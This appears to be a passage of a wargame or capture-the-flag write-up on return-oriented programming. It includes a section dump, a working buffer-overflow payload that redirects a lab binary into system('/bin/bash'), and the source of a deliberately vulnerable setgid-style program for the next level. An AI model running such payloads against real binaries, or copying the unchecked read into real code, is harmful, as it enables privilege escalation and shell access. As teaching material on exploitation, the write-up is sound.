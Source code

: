 looking at data section of the binary to verify our claim  

```
Contents of section .rodata:
 8048608 03000000 01000200 2f62696e 2f626173  ......../bin/bas
 8048618 68002f62 696e2f64 61746500 48656c6c  h./bin/date.Hell
 8048628 6f2c2057 6f726c64 0a00               o, World..    
```

plan 1:  

1. trick program to execute `not_called` , repeat level 1 trick   
2. can't trick system to use `not_called` as parameter   
/fail

plan 2:  

1. push `not_used` into stack.  
2. trick program to execute `system` bypassing `not_called`.   

counting the address of "/bin/bash" we get ... 0x8048610  
`cat <(python -c 'print "A" * 140 + "\xb1\x84\x04\x08" + "\x10\x86\x04\x08"') -| ./rop2`

essentially, our ROP did this two thing 

```
 80484aa:   c7 04 24 1a 86 04 08    movl   "\x10\x86\x04\x08",(%esp) # *$0x8048610 = "/bin/bash"
 80484b1:   e8 ea fe ff ff          call   80483a0 <system@plt>
```

Level 3
---

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function()  {
   char buf[128];
   read(STDIN_FILENO, buf,256);
}

void be_nice_to_people() {
   // /bin/sh is usually symlinked to bash, which usually drops privs. Make
   // sure we don't drop privs if we exec bash, (ie if we call system()).
   gid_t gid = getegid();
   setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
   vulnerable_function();
   write(STDOUT_FILENO, "Hello, World\n", 13);
}
```
